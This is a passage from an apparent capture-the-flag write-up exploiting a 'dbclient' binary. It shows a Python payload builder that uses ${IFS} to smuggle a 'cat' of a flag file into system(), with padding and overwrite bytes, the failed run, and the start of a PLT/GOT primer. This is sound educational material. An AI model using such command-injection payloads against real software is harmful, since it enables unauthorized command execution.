 ```py
SPACE = "${IFS}"
payload = "cat" + SPACE + "/home/ben/.flag.advanced" + SPACE
payload = payload.ljust(0x30, "A")
payload += "hJJ"
payload += "BBBBBBBBB"

print("./dbclient \"" + payload.replace("$", "\\$") + "\" aa")
```

Now, it's time to get flag.

```bash
$ ./dbclient "cat\${IFS}/home/ben/.flag.advanced\${IFS}AAAAAAAAAhJJBBBBBBBBB" aa
sh: 2: Syntax error: EOF in backquote substitution
```

Backquotes? I didn't put in any backquotes... what's wrong? Recall that the address of system is `0x401a60`, and `0x60` translates to ``'`'``. This means after `func&=z85_decode`, hash would now contain the following

```
cat\${IFS}/home/ben/.flag.advanced\${IFS}AAAAAAAAA`\x1a@BBBBBBBBB
```

This is where most people are stuck at, I believe. After trying countless ways, I still could not find a way to escape the backquote, making my payload completely useless. Until I remembered, `system()` is a function in the procedure linkage table (PLT), and functions in the PLT all maintain the following form.

```
jmp *<corresponding GOT entry>
push <num>
jmp <top of plt>
```

##### Short primer on dynamic relocation
If you are not interested, do [skip ahead](#completing-the-exploit).

For all the above to make sense, we need to know about how an ELF binary dynamically resolve external library functions, in the case of a dynamically-linked binary, such as `dbclient`.

![file][file-screenshot]

When a dynamically-linked program calls a function from an external library such as libc, the address to that function would not be known during compile time, since, obviously the compiler would not know where will the libraries be mapped during runtime. If the compiler does assign an address, this would break functionality across different versions of the library as the address to a certain function may be different.

On the other hand, a statically-linked binary would have those addresses constant as the compiler copies all the instructions of called functions and embeds them into the binary itself. This allows for a user to not need the required libraries on their system, but this would cause the binary to be very large in size, scaling according to the number of external functions referenced.

Knowing the difference, we can now ask, "how does the program know the addresses of these functions?". Firstly, the PLT will contain a list of functions that are referenced in the program, and every function looks like the following (except the first one).
